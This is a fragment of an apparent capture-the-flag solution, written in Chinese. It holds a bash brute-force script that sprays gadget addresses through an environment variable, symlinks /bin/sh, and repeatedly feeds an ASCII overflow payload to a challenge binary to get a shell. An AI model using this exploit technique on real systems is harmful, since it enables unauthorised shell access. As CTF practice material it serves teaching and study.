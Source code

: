 ```python
    build_ret2syscall()

```


暴力破解脚本：
```bash
#!/bin/bash

ulimit -s unlimited
mkdir -p /tmp/haha
cd /tmp/haha
ln -sf /bin/sh z

export PATH=$PATH:$(pwd)


for i in `seq 0 7`
do

echo "try padding ${i}..."

# ascii文件中找到的短gadget，长度=8
# 每次调整前后a的数量，最多8次
export A=`python3 -c "import sys; sys.stdout.buffer.write(b'a'*${i}+b'\x80\x1f\x0c\x08i\x94\x04\x08'*0x1fff+b'a'*(8-${i}))"`


for j in `seq 0 300`
do
#sleep .1
expect -c "
  set timeout 5;
  spawn ~/ascii
  expect {
    *:* { send \"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaZkYUplYUplYUWjYUjfYUzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\n\" }
  }
  interact

"
done

done

```
